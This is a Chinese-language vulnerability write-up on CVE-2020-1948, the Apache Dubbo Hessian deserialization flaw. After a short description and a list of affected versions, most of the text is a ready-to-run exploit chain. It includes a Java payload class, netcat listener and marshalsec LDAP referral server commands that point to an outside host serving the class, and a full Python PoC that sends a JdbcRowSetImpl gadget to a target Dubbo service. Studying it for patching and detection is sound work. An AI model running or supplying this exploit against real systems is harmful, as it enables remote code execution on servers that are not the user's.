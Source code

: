 （CVE-2020-1948）Apache Dubbo Hessian 反序列化漏洞
==================================================

一、漏洞简介
------------

攻击者可以发送带有无法识别的服务名或方法名及某些恶意参数负载的RPC请求，当恶意参数被反序列化时将导致代码执行

二、漏洞影响
------------

2.7.0 \<= Apache Dubbo \<= 2.7.7

2.6.0 \<= Apache Dubbo \<= 2.6.7

Apache Dubbo 全部 2.5.x 版本

三、复现过程
------------

### 漏洞分析

Hessian是一个轻量级的RPC框架。它基于HTTP协议传输，使用Hessian二进制序列化，对于数据包比较大的情况比较友好。使用hession的web项目需要配置web.xml,映射`com.caucho.hessian.server.HessianServlet`之相应的路径

![1.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId25.png)

Java客户端可以很方便的调用服务器上的方法,如下

![2.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId26.png)

查看`com.caucho.hessian.server.HessianServlet`的代码service方法处理客户端发来的http请求,调用

![3.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId27.png)

![4.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId28.png)

调用HessianSkeleton的invoke方法,将从客户端发来的数据流中读取对象

![5.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId29.png)

看代码里面好像没有什么黑白名单过滤机制通过抓取请求包,分析,构造请求包,将marshalsec工具生成的Resion
payload发送给服务器下面是构造请求包的`CVE-2020-1948.py`代码

![6.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId30.png)

利用图

![7.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId31.png)

![8.png](./.resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId32.png)

### 漏洞复现

#### 构造poc

    ## exp.java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.util.Hashtable;

    public class exp {
        public exp(){
            try {
                java.lang.Runtime.getRuntime().exec("calc.exe");
            } catch (java.io.IOException e) {
                e.printStackTrace();
            }
        }
    }

> 编译poc

    javac exp.java

#### nc监听

    nc -lvvp 12345

#### 服务器开启web服务，并将生成好的exp.class放置web目录

#### 启动 LDAP 代理服务

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://www.0-sec.org/#exp 81

> marshalsec 下载：

    https://download.0-sec.org/Web安全/java反序列化漏洞/marshalsec-0.0.3-SNAPSHOT-all.jar

#### py脚本测试

> 安装依赖包

    pip install dubbo-py

> 运行

    python poc.py www.target.com 12345 ldap://www.yourweb:81/exp

> 除了通过返回信息来判断外，观察 LDAP
> 代理是否出现请求转发也是判断POC利用是否成功的重要依据:

    # LDAP Refer Server Output
    Send LDAP reference result for exp redirecting to http://www.0-sec.org/exp.class
    # poc.py
    # -*- coding: utf-8 -*-

    import sys

    from dubbo.codec.hessian2 import Decoder,new_object
    from dubbo.client import DubboClient

    if len(sys.argv) < 4:
      print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
      print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
      sys.exit()

    client = DubboClient(sys.argv[1], int(sys.argv[2]))

    JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource=sys.argv[3],
      strMatchColumns=["foo"]
      )
    JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
    toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

    resp = client.send_request_and_return_response(
      service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
      # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
      method_name='$invoke',
      args=[toStringBean])

    output = str(resp)
    if 'Fail to decode request due to: RpcInvocation' in output:
      print('[!] Target maybe not support deserialization.')
    elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
       print('[+] Succeed.')
    else:
      print('[!] Output:')
      print(output)
      print('[!] Target maybe not use dubbo-remoting library.')

参考链接
--------

> https://github.com/DSO-Lab/Dubbo-CVE-2020-1948/wiki
